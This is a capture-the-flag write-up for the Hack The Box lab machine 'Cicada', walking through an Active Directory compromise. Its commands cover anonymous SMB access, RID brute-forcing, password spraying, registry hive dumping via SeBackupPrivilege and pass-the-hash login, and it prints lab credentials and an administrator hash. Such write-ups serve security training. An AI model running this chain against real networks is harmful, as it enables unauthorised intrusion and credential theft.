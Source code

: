 # Cicada Writeup

## User flag

Lets start off with an nmap scan:
```
nmap -sV -sC -Pn -oA cicada1 10.10.11.35
```
![Nmap Scan](Cicada_images/nmap_scan.png)

Looking at the results, we can tell that this will be an Active Directory scenario. We get the domain name "Cicada.htb", as well as the name of the Domain Controller "CICADA-DC"

![Adding to hostfile](Cicada_images/hostfile.png)

The first thing I would like to try is an anonymous login via SMB. We can do so by providing a nonexistent username and a blank password:

```
crackmapexec smb 10.10.11.35 -u 'nonexistent' -p '' --shares
```
![Anonymous login reveals a readable HR share](Cicada_images/AnonShares.png)

We have read permissions over IPC$ and HR shares. IPC$, NETLOGON and SYSVOL are standard shares, so we'll focus on HR.

```
smbclient //10.10.11.35/HR -U cicada.htb/nonexistent
```
![Downloading the text file](Cicada_images/HR.png)

Lets read the file:

![Reading the notice](Cicada_images/cat.png)

We have a potential password! Now we need to get a list of valid users so that we can perform password spraying:

```
crackmapexec smb 10.10.11.35 -u 'nonexistent' -p '' --rid-brute
```

![RID-brute](Cicada_images/RID-brute.png)

Now that we have a list of users, we can proceed with password spraying via crackmapexec:

![password spray](Cicada_images/password-spray.png)

```
crackmapexec smb 10.10.11.35 -u userlistfinal.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

With a valid user, we can use bloodhound-python to enumerate the domain and then bloodhound itself to have a better view of the data.

```
bloodhound-python -c all --zip -d cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

In the description field of user David.Orelious, we discover a password!

![David's password in the description field](Cicada_images/description_password.png)

```
david.orelious:aRt$Lp#7t*VQ!3
```

Previously we saw an unaccessible share named DEV. Lets try getting it with David's credentials:

```
smbclient //10.10.11.35/DEV -U cicada.htb/david.orelious                                    
```

![backup script in the DEV share](Cicada_images/backup_script.png)


Lets check out the script:

![Powershell script](Cicada_images/emily_credentials.png)

We've got creds for the user Emily!

```
emily.oscars:Q!3@Lp#M6b*7t*Vt
```

Lets try logging into the machine as Emily:

```
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```
![Getting the user flag](Cicada_images/user_flag.png)


## Privilege escalation

Lets check the privileges of our user:

```
whoami /priv
```
![Privileges of the user Emily](Cicada_images/emily_privileges.png)

Emily has the SeBackupPrivilege. This can be abused to extract the registry hives, and get the secrets of the domain.

```
cd C:\
mkdir reg
reg save hklm\sam c:\reg\sam
reg save hklm\system c:\reg\system
cd reg
```
![Reg hives in our location](Cicada_images/saved_reg_hives.png)

Now we need to get them onto our machine:

```
download sam
download system
```

Afterwards, we can use impacket-secretsdump to get the administrator's hash:

```
impacket-secretsdump -system system -sam sam -outputfile cicada.secrets -dc-ip 10.10.11.35 -target-ip 10.10.11.35 local     
```
![Getting the secrets](Cicada_images/secrets.png)

Now all that's left to do is to log in as the administrator, and get the root flag!

```                                                                                                                                                                                                                                       
evil-winrm -i 10.10.11.35 -u administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![Getting the root flag](Cicada_images/root.png)
